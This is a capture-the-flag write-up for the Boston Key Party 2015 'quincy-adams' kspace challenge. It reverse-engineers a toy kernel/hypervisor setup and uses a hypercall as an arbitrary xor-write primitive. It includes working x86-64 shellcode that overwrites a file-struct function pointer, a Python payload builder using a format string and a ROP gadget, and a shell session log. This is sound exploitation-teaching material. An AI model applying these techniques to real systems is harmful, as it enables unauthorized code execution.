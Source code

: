 ```yaml
---
title: 'quincy-adams (kspace) write-up'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **quincy-adams** challenge, which is the second part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-adams-kspace-write-up/)_.

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (kspace flag) 54.165.91.92 8899

The goal is to get "kspace" flag by exploiting the kernel space process.

Before we dive in, let's look at what is really going on.

We can think of each process (tz, kspace, uspace) as a separate privilege ring, as their name suggest.

  * **tz** (TrustZone?) &mdash; a "hypervisor" layer that implements the "hypercalls" (we haven't really reversed this too much).
  * **kspace** &mdash; a kernel layer that implements the "syscalls"; it maintains the files array and performs the actual tasks such as listing files, removing files, sleeping, and cat'ing (open & read).
  * **uspace** &mdash; a user layer that implements the interface that the user interacts with; it parses the commands and calls the appropriate "syscalls".

We would start from the **uspace** to get an arbitrary code execution on **uspace** process (as we did in previous write-up), then exploit the **kspace** to allow us to perform an attack against **tz**. Shared memory is arranged by **tz**, such that each layer will get its own memory "space" to pass the arguments to {sys, hyper}calls.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_0.png" lightbox="quincy-adams" title="kspace syscall_handler (sub_401180)" %}

We can see that the syscall numbers, which is stored on **user_space[0]**, match with what we saw on **uspace**.

  * **do_ls** loops through the **file_array** list and prints out the name of the file.
  * **do_rm** finds the file in **file_array** with a given filename, and deletes it.
  * **do_create** adds a file into **file_array** up to 16 files. It looks for the spot/bin in the array by checking if the filename is null.
    This also initializes the file structure:
      * **open_file**, **read_file**, and **delete_file** are the function pointers.
        * Note that **syscall 95** and **99** are **sleep** and **exit**, respectively, which are not that interesting :p
        * **do_read** finds the file in **file_array** with a given filename, and if the file is "open", its content is copied to the output buffer (2nd argument).
        * **do_open** finds the file in **file_array** with a given filename, and changes its open state.
            * Only up to 9 files can be open simultaneously.
  {% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_1.png" lightbox="quincy-adams" title="file struct" %}

There is a bug with file creation and deletion, where the number of files in the list gets incremented when creating a file, but it does not get decremented when being deleted. Thus, we can only create up to 16 files and we can't create any more file even if we delete some. This didn't really affect the exploitation, however :)

If you followed carefully, you'd have noticed that we didn't go over the mysterious **syscall 92** (sub_402380).

This operation, unlike other ones, does not process the user input/arguments here. Instead, it forwards these arguments to **tz** via the "hypercall".

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_2.png" lightbox="quincy-adams" title="syscall 92 (kspace)" %}

To be more precise, the 3 arguments are stored starting at **kernel_space + 48**, and the hypercall takes 3 arguments of the **hypercall number (92)**, ****, and the **pointer to the arguments (kernel_space + 48)**.

So what does this hypercall do? Let's take a look at **tz** binary now.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="quincy-adams" title="hypercall handler (tz)" %}

As we can see above, **sub_401560** is the hypercall 92 handler.
It doesn't really do anything too fancy. The function performs a very simple "encryption" of data.


{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_4.png" lightbox="quincy-adams" title="hypercall 92 handler" %}

It basically **xor**'s the bytes at **src** with the **key** "charlestown isn't that skeytchy." and stores the result to **dest**.

There is no restriction on the memory address for **dest** (other than checking if it's 0x100000000), which allows us to do <span style="text-decoration: underline;">arbitrary (xor) write</span>. By preparing the **src** buffer with already xor'd values, we can write any value we want to any memory location.

So, we can use this capability(?) to write useful data structure (such as a function pointer) to gain arbitrary code execution!

Just like **uspace**, **kspace** has NX disabled, so we can put our shellcode somewhere and jump to it.

&nbsp;

The attack plan is as follows:

  1. Create a file, with the content being the shellcode we want to run as kernel.
  2. Overwrite a function pointer (open_file) for the first file (which is the one that we just created in step 1) with the pointer to our shellcode.
      * The **file_array** is located at kernel_space + 0x3E800 == **0x90003e800**.
      * According to our **struc_files** struct, file_array **+ 0x8** points to the **files** array.
      * Thus, the first file structure will be located at **0x90003e808** and according to our **struc_file**, its content is located at the offset **+0x9**.
      * The first file's content == **shellcode** == 0x90003e800 + 0x8 + 0x9 == **0x90003e811**.
      * The first file's **open_file** function pointer is at **+0x118** from the file structure, which makes its location **0x90003e920**.
  3. Invoke a syscall #93, which opens a file.
      * At this point, we will tell it to open our file which has corrupted **open_file** function pointer &#8212; thus, calling into our shellcode.

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
  [BITS 64]
  section .text
  global _start
  _start:

  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax

  ; syscall 92 (encrypt)
  push qword [rel data]       ; 0x90003e811 (xor'd)
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 92         ; syscall #92
  mov qword [rax + 8], rsp    ; src (ptr to data)
  mov rcx, [rel dst]          ;
  mov qword [rax + 16], rcx   ; dst (0x90003e920)
  mov qword [rax + 24], 0x8   ; len

  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax

  ; sleep(1)
  mov rdi, 1
  mov rax, 0x400C30
  call rax

  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax

  ; syscall 93 (open)
  push qword [rel data]       ; now has 0x90003e811
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 93         ; syscall #93
  lea rcx, [rax + 16]         ; (using user_space + 16 as scratch)
  mov qword [rax + 8], rcx    ; filename
  mov rcx, [rel lol]
  mov qword [rax + 16], rcx   ; filename &lt;- &("lol")

  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax

  data:
  dq 0x7473656572628072   ; 0x90003e811 ^ 0x7473656c72616863 (key)
  dst:
  dq 0x90003e920
  lol:
  db 'lol',0
{% endhighlight %}

<br />

Note that since we are using syscal #92 (encrypt) to perform an arbitrary write to memory, we have to "encrypt" the value we want to write beforehand such that it will get "decrypted" when it writes. The filename we used is "lol".

<p class="filename">pwn_kspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

Our exploit code looks fairly similar, but we now create a file called &#8216;lol' first with the shellcode. (The shellcode is the same as what we used for uspace.)

Then, we trigger the bug with our stage1 code.

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_kspace.py
$ (cat ../kspace/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
kspace
{% endhighlight %}
<br />

So far, we have triggered a **uspace** bug to call a syscall (92) in **kspace**, which does a hypercall (92) in **tz**, which allowed us to perform an arbitrary memory write in **kspace **memory.

Amusingly, we will be using the same primitive to get a shell under **tz** context in the next series.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]
